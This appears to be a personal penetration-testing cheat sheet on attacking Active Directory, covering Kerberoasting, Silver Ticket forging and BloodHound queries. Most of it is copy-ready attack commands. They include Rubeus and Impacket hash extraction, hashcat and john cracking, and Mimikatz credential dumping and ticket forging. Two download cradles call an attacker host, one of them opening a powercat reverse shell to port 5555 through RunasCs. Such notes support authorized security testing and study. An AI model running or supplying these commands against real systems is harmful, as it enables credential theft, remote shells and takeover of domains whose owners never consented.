 ***AD Flowchart*** https://orange-cyberdefense.github.io/ocd-mindmaps/img/pentest_ad_dark_2022_11.svg


## Kerberoasting
For attacking Service Principal Names (SPNs) running for users. 

NOTE: This only works for high-privilege service accounts with weak passwords. 
- Look for SPNs running in the context of user accounts
- Will **NOT** work on computer, managed service, group-managed service, or *krbtgt* accounts
- Windows - Rubeus `.\Rubeus.exe kerberoast /outfile:hashes.kerberoast`
	- Then crack the hashes: `sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
- Windows - `Invoke-Kerberoast.ps1` (serve with python3)
	- `iex(new-object net.webclient).downloadString('http://192.168.kali.ip:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat`
	- `hashcat -m 13100 --force -a 0 mssql.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
	- or `john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 MSSQL.hash`
	- With Creds: 
		- `wget https://raw.githubusercontent.com/antonioCoco/RunasCs/master/Invoke-RunasCs.ps1` & transfer to target
		- `import-module ./Invoke-RunasCs.ps1`
		- `Invoke-RunasCs -Username serviceuser -Password servicepassword -Command "whoami"
		- `Invoke-RunasCs -Username svc_mssql -Password trustno1 -Command "Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.kali.ip/powercat.ps1');powercat -c 192.168.kali.ip -p 5555 -e cmd"`
- Kali - Impacket: `sudo impacket-GetUserSPNs -request -dc-ip 192.168.xx.xxx corp.com/jeff`
	- Save generated hash to a new file (eg. `hashes.kerberoast2`)
	Note: If Error `Clock Skew too great` is generated, run `ntpdate` or `rdate` to sync clock}
	- Crack hash with Hashcat: `sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
## Silver Tickets
To show Kerberos tickets (PowerShell): `klist`
Creation requires:
- SPN Password hash
	- Run Mimikatz as administrator: `privilege::debug` & `sekurlsa::logonpasswords`
	- Find NTLM hash for service you want (eg. NTLM for `iis_service`)
- Domain SID
	- Get user SID: `whoami /user` (make sure to remove final 4/5 numbers if necessary)
- Target SPN

Use `Kerberos::Golden` in Mimikatz
- Example of iis_service to access website  `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin`
- User can be ANY user on the domain

# BloodHound
 - https://github.com/BloodHoundAD
- https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound
- https://support.bloodhoundenterprise.io/hc/en-us/articles/17715215791899-Getting-started-with-BloodHound-Community-Edition
- SoapHound https://github.com/FalconForceTeam/SOAPHound
- Custom bloodhound querys
	- All active sessions: `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
	- Matches: `MATCH (m:Computer) RETURN m`
